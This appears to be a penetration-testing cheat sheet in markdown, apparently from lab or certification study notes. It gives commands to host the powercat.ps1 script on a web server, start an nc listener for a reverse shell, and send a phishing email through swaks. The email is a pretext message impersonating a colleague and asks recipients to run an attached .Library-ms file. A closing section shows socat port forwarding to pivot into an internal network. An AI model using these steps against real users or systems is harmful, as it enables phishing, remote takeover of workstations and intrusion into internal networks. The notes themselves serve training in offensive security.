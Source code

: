 Copy to a another directory powercat script and set up a web server to it:
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```

Remeber, this is only for the powercat.ps1
```
python3 -m http.server $webport
```

Set up your nc listener for the reverse shell:
```
nc -nlvp $lport
```

Make a body.txt to send to the users in the mail server:
```
Hey!
I checked this MACHINE and discovered that the previously used staging script still exists in the Git logs.
I'll remove it for security reasons.
On an unrelated note, please install the new security features on your workstation.
For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!
John
```

Using swaks to send the email:
```
sudo swaks -t username1@mailserver.com -t user2@mailserver.com --from john@mailserver.com --attach @config.Library-ms --server $mailserver_ip --body @body.txt --header "Subject: Git Vulnerability" --suppress-data -ap
```
You will be asked for a login. Enter the credentials founded and send the e-mail. Now just wait for your reverse shell


Using sendmail:
```
sendemail -f 'user@localhost' \
                       -t 'admin@localhost' \
                       -s $rhosts:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested document' \
                       -a document.ext

```

## Pivoting

kali ---> MACHINE1 (WAN) ---> MACHINE2(local network)

With socat, we want to open port 2345 in MACHINE1 (WAN) and send this to access port 5432 (postgres) in MACHINE2 (local network):
```
socat -ddd TCP-LISTEN:2345,fork TCP:$IP_MACHINE2:5432
```

